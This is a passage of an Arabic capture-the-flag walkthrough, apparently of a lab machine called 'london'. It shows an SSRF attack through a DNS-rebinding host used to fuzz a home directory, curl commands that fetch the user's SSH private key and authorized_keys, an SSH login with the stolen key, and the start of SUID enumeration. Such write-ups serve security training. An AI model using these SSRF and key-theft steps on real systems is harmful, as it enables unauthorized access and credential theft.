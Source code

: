 ```bash
 :: Method           : POST
 :: URL              : http://10.10.32.94:8080/view_image
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : www=http://00000000.7f000001.rbndr.us:80/FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 469
________________________________________________

.bash_history           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 268ms]
.bashrc                 [Status: 200, Size: 3771, Words: 522, Lines: 118, Duration: 306ms]
.profile                [Status: 200, Size: 807, Words: 128, Lines: 28, Duration: 331ms]
.ssh                    [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 362ms]
```
ملاحظة بسيطة، التحدي هذا بيعلمك حاجة مهمة، وهي إنك تجرب أكثر من قائمة في نفس المكان، لو تلاحظ القائمة اللي استخدمتها هنا مختلفة عن اللي قبلها. نشوف عندنا مجلد بعنوان .ssh خلينا نرسل طلب لملف id_rsa ونشوف إذا كان موجود داخل هذا المجلد
```bash
$ curl http://10.10.32.94:8080/view_image -d "www=http://00000000.7f000001.rbndr.us:80/.ssh/id_rsa"
-----BEGIN RSA PRIVATE KEY-----
...
```
ملف id_rsa يحتوي المفتاح الخاص بالمستخدم عشان يتصل بخدمة ssh. عندنا مشكلة بسيطة وهي أن اسم المستخدم غير موجود في هذا الملف. يمديك تستخدم ffuf عشان تبحث عن ملفات ثانية في نفس المجلد وراح يطلع لك authorized_keys وفيه اسم المستخدم:
```bash
$ curl http://10.10.32.94:8080/view_image -d "www=http://00000000.7f000001.rbndr.us:80/.ssh/authorized_keys"
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPXIWuD0UBkAjhHftpBaf949OT8wp/PYpD44TjkoSuC4vfhiPkpzVUmMNNM1GZz681FmJ4LwTB6VaCnBwoAJrvQp7ar/vNEtYeHbc5TFaJIAA5FN5rWzl66zeCFNaNx841E4CQSDs7dew3CCn3dRQHzBtT4AOlmcUs9QMSsUqhKn53EbivHCqkCnqZqqwTh0hkd0Cr5i3r/Yc4REqsVaI41Cl3pkDxrfbmhZdjxRpES8pO5dyOUvnq3iJZDOxFBsG8H4RODaZrTW78eZbcz1LKug/KlwQ6q8+e4+mpcdm7sHAAszk0eFcI2a37QQ4Fgq96OwMDo15l8mDDrk1Ur7aF beth@london
```
عندنا اسم المستخدم والمفتاح، خلينا ننسخ المفتاح وندخل على السيرفر
```bash
$ curl http://10.10.32.94:8080/view_image -d "www=http://00000000.7f000001.rbndr.us:80/.ssh/id_rsa" > id_rsa

$ chmod 600 id_rsa

$ ssh -i id_rsa beth@<TARGET_IP>
```
##  الدخول للسيرفر و تصعيد الصلاحيات
بعد ماندخل السيرفر يمدينا نطلع العلم بأكثر من طريقة، أنا أفضل الطريقة الثانية عشان تشوف محتوى الملفات، ممكن فيه شي مثير غير العلم
```bash
beth@london:~$ find / -type f -name 'user.txt' 2>/dev/null
/home/beth/__pycache__/user.txt

beth@london:~$ ls -al --recursive ./*
...
./__pycache__:
total 20
-rw-r--r--  1 root root   25 Apr 23  2024 user.txt
...
```
الآن لازم نصعد الصلاحيات، خلينا نشيك على الأساسيات (SUID, capabilities)
```bash
beth@london:~$ find / -perm -4000 -ls 2>/dev/null
   274769     32 -rwsr-xr-x   1 root     root        30800 Aug 11  2016 /bin/fusermount
```